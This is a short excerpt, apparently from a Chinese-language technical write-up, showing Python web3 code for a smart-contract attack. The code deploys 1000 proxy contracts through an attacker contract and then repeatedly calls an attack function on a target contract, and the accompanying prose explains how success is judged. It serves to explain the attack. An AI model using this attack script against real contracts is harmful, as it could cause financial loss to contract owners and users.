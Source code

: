 ```
		txhash2 = call_attack(w3, from_address_seq, attacker, target, gas_limit)
		is_valid(w3, txhash2)
		attack_time += 1

	print("Success!")
	return txhash2


def initialization(w3, from_address_seq, attacker, gas_limit):

	initialization_fs = "0xf73baf62"

	print("Now, let's initialize the one thousand proxy contract")
	for i in range(100):
		print(str(i) + "th initialization")
		txhash = "0x" + binascii.hexlify(w3.personal.sendTransaction({'from': w3.eth.accounts[from_address_seq], 'to': attacker, 'data': initialization_fs, 'gas': gas_limit}, " ")).decode()
		#is_valid(w3, txhash)

	is_valid(w3, txhash)

	seq = get_seq(w3, from_address_seq, attacker)
	if seq < 1000:
		print("mining stop")
		w3.miner.stop()
		raise Exception("The number of proxy must be 1000 intead of %d" % seq)


```

首先部署合约manager 和 target ， 然后调用100次manager的`proxy_initialization` 初始化1000个proxy合约，然后就开始反复的对target发起攻击，若`jump_time` <= 1说明没有成功地创建合约`final_call_infinite`进行攻击，否则成功。下面我们看具体的攻击流程
